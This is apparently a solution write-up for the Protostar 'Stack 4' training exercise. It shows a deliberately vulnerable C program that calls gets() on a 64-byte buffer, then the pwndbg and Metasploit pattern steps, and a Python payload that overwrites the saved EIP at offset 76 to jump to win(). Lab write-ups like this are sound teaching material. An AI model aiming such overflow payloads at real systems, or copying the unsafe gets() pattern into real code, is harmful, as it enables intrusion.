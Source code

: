 # Stack 4

## About

Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

Hints
* A variety of introductory papers into buffer overflows may help.
* gdb lets you do “run < input”
* EIP is not directly after the end of buffer, compiler padding can also increase the size.
			
``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
  }
  
  int main(int argc, char **argv)
  {
    char buffer[64];
	
	  gets(buffer);
	  }
	  
```
## Solution

like last time the value of `win` is needed 

```
pwndbg> print win
$1 = {void (void)} 0x80483f4 <win>
```

i then need to overwrite the `eip` value with the value of `win`. to find the `eip` value i use pattern create 

``` bash
[root:/opt/Data/4]# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100 > pattern
[root:/opt/Data/4]# gdb ../bin/stack4

pwndbg> run <pattern
Starting program: /opt/Data/bin/stack4 <pattern
```

and there is a segmentation fault

```
Program received signal SIGSEGV (fault address 0x63413563)
pwndbg>
```

using that i can use pattern offset to calculate the length to the `eip`.

``` bash
[root:/opt/Data/4]# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x63413563
[*] Exact match at offset 76
```

so my exploit will be this 

``` bash
[root:/opt/Data/4]# echo $(python -c 'print "A"*76 + "\xf4\x83\x04\x08"') | ../bin/stack4
code flow successfully changed
[1]    13675 done                echo $(python -c 'print "A"*76 + "\xf4\x83\x04\x08"') |
       13676 segmentation fault  ../bin/stack4
```
